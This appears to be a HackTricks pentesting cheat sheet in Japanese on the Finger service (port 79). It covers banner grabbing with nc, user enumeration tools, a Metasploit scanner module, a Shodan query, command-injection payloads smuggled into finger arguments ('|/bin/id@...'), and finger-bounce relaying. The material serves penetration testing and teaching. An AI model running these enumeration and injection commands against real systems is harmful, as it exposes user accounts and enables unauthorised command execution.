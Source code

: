 # 79 - Pentesting Finger

{{#include ../banners/hacktricks-training.md}}


## **基本情報**

**Finger** プログラム/サービスは、コンピュータユーザーに関する詳細を取得するために利用されます。通常、提供される情報には **ユーザーのログイン名、フルネーム** が含まれ、場合によっては追加の詳細も含まれます。これらの追加の詳細には、オフィスの場所や電話番号（利用可能な場合）、ユーザーがログインした時間、非アクティブ期間（アイドル時間）、ユーザーが最後にメールを読んだ時刻、ユーザーのプランやプロジェクトファイルの内容が含まれることがあります。

**デフォルトポート:** 79
```
PORT   STATE SERVICE
79/tcp open  finger
```
## **列挙**

### **バナー取得/基本接続**
```bash
nc -vn <IP> 79
echo "root" | nc -vn <IP> 79
```
### **ユーザー列挙**
```bash
finger @<Victim>       #List users
finger admin@<Victim>  #Get info of user
finger user@<Victim>   #Get info of user
```
代わりに、[**pentestmonkey**](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum)からの**finger-user-enum**を使用できます。いくつかの例：
```bash
finger-user-enum.pl -U users.txt -t 10.0.0.1
finger-user-enum.pl -u root -t 10.0.0.1
finger-user-enum.pl -U users.txt -T ips.txt
```
#### **Nmapはデフォルトスクリプトを使用してスクリプトを実行する**

### MetasploitはNmapよりも多くのトリックを使用する
```
use auxiliary/scanner/finger/finger_users
```
### Shodan

- `port:79 USER`

## コマンド実行
```bash
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```
## フィンガーバウンス

[システムをフィンガーリレーとして使用する](https://securiteam.com/exploits/2BUQ2RFQ0I/)
```
finger user@host@victim
finger @internal@external
```
{{#include ../banners/hacktricks-training.md}}
